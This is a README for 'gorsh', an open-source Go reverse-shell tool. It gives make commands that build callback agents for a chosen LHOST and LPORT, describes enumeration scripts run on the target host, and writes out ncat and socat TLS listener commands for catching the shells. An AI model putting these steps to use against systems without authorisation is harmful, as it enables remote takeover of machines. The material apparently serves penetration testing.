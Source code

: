 # gorsh

[go]lang [r]everse [sh]ell

[![forthebadge](https://forthebadge.com/images/badges/fuck-it-ship-it.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/made-with-go.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/no-ragrets.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/contains-technical-debt.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/made-with-crayons.svg)](https://forthebadge.com)

![](https://i.imgur.com/x51XH6K.png)
[![asciicast](https://asciinema.org/a/NmeC42TNu8BgdjMLcyVUXo74x.svg)](https://asciinema.org/a/NmeC42TNu8BgdjMLcyVUXo74x)

Originally forked from - [sysdream/hershell](https://github.com/sysdream/hershell)

## Fork Changes

**Requires go1.16+**

See the [Changelog](./docs/CHANGELOG.md)

## Getting started

```bash
git clone git@github.com:audibleblink/gorsh.git
```

Using the zstd build tag and windll make target require cgo.
Make sure you're familiar with cross-compilation and cgo and have the toolchains for it, or read
[here](./docs/TROUBLESHOOTING.md) if you're feeling adventurous.

### Usage

**Create** `internal/sshocks/conf/ssh.json`. There's an example in that same directory for
reference.

Follow the make command's printed instructions on creating an ssh user for the reverse proxy
connection.

Generate agents with:

```bash
# For the `make` targets, you only need the`LHOST`and`LPORT`environment variables.
$ make {windows,macos,linux} LHOST=example.com LPORT=443
```

#### Enumeration Scripts

The `enum` command will present a selection dialog that allows once to run enumeration scripts based
on the host OS. You can update scripts in `scripts/prepare_enum_scripts.sh` and run 
`make enumscripts`. Addition of scripts will require modification of
`./internal/enum/enum_{windows,linux}.go`


#### Catching the shell

This project ships with a server that catches the reverse shell and still provides shell-like
capabilities you lose with traditional reverse shells, including:

* Tab Completion
* Vi-mode readline editing
* History
* Cursor movements

Generate the server with:

```sh
make server
build/srv/gorsh-server --help
```

The gorsh and gorsh-server have a one-to-one relationship, like a traditional shell. For multiple
shells, you need to start multiple servers on different ports. Unless...

To have the ability to receive multiple shells on the same port, there's the `make listen` target.
The `make listen` target kicks off a socat TLS pipe and creates new tmux windows with each new
incoming connection.  Feed it a port number as PORT. 
`socat` is essentially acting as a TLS-terminating reverse proxy. The incoming connections are then
handed off to gorsh-listener through randomly generated Unix Domain Sockets.

```sh
make listen PORT=8080

# once a client connects, on a different terminal type:
tmux attach -t GORSH
```

Shells can also be caught without tmux or gorsh-listen using:

* socat (not working on macos)
* ncat
* openssl server module
* metasploit multi handler (with a `python/shell_reverse_tcp_ssl` payload)

__Examples__

```bash
$ ncat --ssl --ssl-cert server.pem --ssl-key server.key -lvp 1234
$ socat stdio OPENSSL-LISTEN:443,cert=server.pem,key=server.key,verify=0
```

## Credits

* Initial Work - [@lesnuages](https://github.com/lesnuages)
* Modifications - f47h3r - [@f47h3r_b0](https://twitter.com/f47h3r_b0)
* [@mzpqnxow](https://github.com/mzpqnxow) for figuring out my x-compilation and dependancy problems and troubleshooting guide
* Enumeration scripts courtesy of [@411hall](https://twitter.com/411hall) [@harmj0y](https://twitter.com/harmj0y) [@rebootuser](https://twitter.com/rebootuser)
